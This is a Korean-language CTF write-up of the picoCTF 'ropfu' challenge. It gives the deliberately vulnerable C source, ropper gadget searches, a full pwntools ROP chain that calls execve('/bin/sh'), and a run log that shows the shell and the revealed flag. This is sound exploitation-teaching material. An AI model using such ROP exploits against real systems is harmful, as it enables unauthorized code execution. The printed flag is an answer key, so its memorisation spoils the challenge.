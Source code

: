 # [ropfu](https://play.picoctf.org/practice/challenge/292?category=6&originalEvent=70&page=1&search=)
<br />

**Description:**
> What's ROP?
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);


  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
<br />
<br />

바이너리에서 제공되는 가젯을 이용해서 rop 공격을 수행하여 쉘을 따면 되는 간단한 문제입니다. rop를 하기 전에 필요한 가젯을 찾겠습니다.

<br />

```yaml
$ ropper -f vuln --search "pop edx"
0x080583b9: pop edx; pop ebx; ret;
0x08092425: pop edx; xor eax, eax; pop edi; ret;
```
```yaml
$ ropper -f vuln --search "pop eax"
0x080b073a: pop eax; ret;
```
```yaml
$ ropper -f vuln --search "pop ebx"
0x08056114: pop ebx; ret;
```
```yaml
$ ropper -f vuln --search "mov [edx]"
0x080590f2: mov dword ptr [edx], eax; ret;
```
```yaml
$ ropper -f vuln --search "xor ecx"
0x0804a73f: xor ecx, ecx; int 0x80;
```
```yaml
$ readelf -s vuln | grep "bss"
    23: 080e62c0     0 SECTION LOCAL  DEFAULT   23 .bss
```

`execve("/bin/sh", 0, 0)`을 호출하기 위해 rop를 수행할 필요 가젯을 모두 찾았습니다. 이제 공격 코드를 작성할 수 있습니다.

<br />
<br />

```python
from pwn import *

context.log_level = 'error'
context.arch = 'x86'

def conn():
    if len(sys.argv) == 3:
        host, port = sys.argv[1], int(sys.argv[2])
        p = remote(host, port)
    else:
        p = process('./vuln')
    return p

pop_edx_xor_pop = 0x08092425  # pop edx; xor eax, eax; pop edi; ret;
pop_eax = 0x080b073a
pop_ebx = 0x08056114
pop_edx = 0x080583b9      # pop edx; pop ebx; ret;
mov_edx = 0x080590f2      # mov dword ptr [edx], eax; ret;
xor_ecx_int = 0x0804a73f  # xor ecx, ecx; int 0x80;
bss = 0x80e62c0

str = [b'//bi', b'n/sh']
pay = flat(

  {28:pop_eax}, str[0],  # eax = '//bi'
  pop_edx, bss, 0,       # edx = [bss]
  mov_edx,               # [bss] = '//bi'

  pop_eax, str[1],       # eax = 'n/sh'
  pop_edx, bss+4, 0,     # edx = [bss+4]
  mov_edx,               # [bss+4] = 'n/sh'

  pop_ebx, bss,          # ebx = [bss]
  pop_edx_xor_pop, 0, 0, # edx = 0
  pop_eax, 0xb,          # eax = 0xb
  xor_ecx_int            # ecx = 0, call execve

)

p = conn()

p.sendline(pay)
p.interactive()
```
```bash
$ python3 test.py saturn.picoctf.net 51659
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
$ ls
flag.txt
vuln
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_4cbbb771}$
```
